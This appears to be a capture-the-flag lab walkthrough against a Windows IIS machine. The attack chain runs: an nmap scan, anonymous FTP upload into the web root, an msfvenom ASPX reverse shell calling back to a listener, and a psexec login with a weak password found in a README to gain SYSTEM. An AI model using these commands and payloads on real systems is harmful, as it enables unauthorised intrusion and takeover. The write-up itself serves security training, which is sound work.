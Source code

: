 First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 172.31.1.11`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/02e3276d-a263-4c23-8b13-682f001170d6/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/02e3276d-a263-4c23-8b13-682f001170d6/Untitled.png)

Looks like we have serveral interesting ports open.  First thing I notice in the nmap output if the FTP results.  It looks like the contents for anonymous login are files found in a default IIS page.  We have IIS running on port 80 so lets see if it is a default page or not.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/763d8630-6a04-4d9c-b5e5-cc2773cccc6a/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/763d8630-6a04-4d9c-b5e5-cc2773cccc6a/Untitled.png)

It is!  Lets test and see if this FTP server is linked to the root of this web server.  We can test this by putting a file on the server via FTP and then access it via HTTP.  If it works, we may be able to execute a script via HTTP that could give us a shell!

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9d6d9124-62cd-4d05-81a2-40be65fa48d9/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/9d6d9124-62cd-4d05-81a2-40be65fa48d9/Untitled.png)

I was getting an error saying the server cannot accept the argument **ls** which I had never seen before.  I looked this up and decided to see what wireshark showed when I sent the **ls** command.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a075f964-15d1-4b66-ad4f-6167fcbd6903/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a075f964-15d1-4b66-ad4f-6167fcbd6903/Untitled.png)

It looks like it is using the **PORT** command with some arguments which I'm not for sure why.  I read up and someone suggested to try in passive mode.  So I switched and now everything seems good.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/156d9a21-0b4c-4bdb-9b82-094d979ce272/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/156d9a21-0b4c-4bdb-9b82-094d979ce272/Untitled.png)

I put the file **test.txt** on the server via FTP and accessed with HTTP successfully.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b7f85bf5-84b0-4b4f-9aaf-2c3384099829/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/b7f85bf5-84b0-4b4f-9aaf-2c3384099829/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/26595f6b-9175-4131-b3e9-9554d3353c07/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/26595f6b-9175-4131-b3e9-9554d3353c07/Untitled.png)

Now lets try to generate an aspx payload with **msfvenom**.  We will use a x64 payload first and see what we get.  If it fails we may try an x86 instead.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.0.11 LPORT=1337 -f aspx > shell.aspx`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/45287cdf-585c-4cde-b26b-8526f3b57bf8/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/45287cdf-585c-4cde-b26b-8526f3b57bf8/Untitled.png)

Now we will copy the payload to the server, start a netcat listener, and execute via HTTP.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad3dad4a-79d7-409c-88a7-363302ec0473/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/ad3dad4a-79d7-409c-88a7-363302ec0473/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/854a6623-5c86-4b42-b6cd-832773282672/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/854a6623-5c86-4b42-b6cd-832773282672/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5e83c9ef-15ad-45ba-a688-cfdb2ce82432/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5e83c9ef-15ad-45ba-a688-cfdb2ce82432/Untitled.png)

We have a shell as low level user.  Awesome!  Now time to escalate.

After some manual enumeration, we find a directory on the root of the hard drive called **Development** which looks interesting.  Inside is a file called **README.txt** so lets look at its contents.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/585171d9-faeb-4be5-9f59-9acfe63fa066/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/585171d9-faeb-4be5-9f59-9acfe63fa066/Untitled.png)

Hmmm.  Looks like someone is using an insecure password.  We can assume it is not the administrator account since this note seems to be signed by the Administrator.  Lets look and see what users we may have on this machine.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f24db7b1-7ca5-4d50-ae31-0896b1633fbd/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/f24db7b1-7ca5-4d50-ae31-0896b1633fbd/Untitled.png)

Since we are current Alpha Site, lets see if we can authenticate with Web Admin.  I tried a few default passwords like **admin**, **password**, etc. All failed and I thought I would try to brute force untill I tried "**Password"** which is what was in the **README** file.  I got a message saying it could not access because of insufficient user privileges.  This is good as it indicates we have a valid set of creds, just can't be used via RDP.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5de8e107-259b-4b9a-bc86-16a24d7f7fb2/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5de8e107-259b-4b9a-bc86-16a24d7f7fb2/Untitled.png)

So since we have SMB services running, lets try to get a shell with **psexec**

[`psexec.py](http://psexec.py/) 'Web Admin':'Password'@172.31.1.11`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/68befef3-4cdb-47b3-ac6d-c5f043299a4a/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/68befef3-4cdb-47b3-ac6d-c5f043299a4a/Untitled.png)

There we go.  We are now System on the machine!
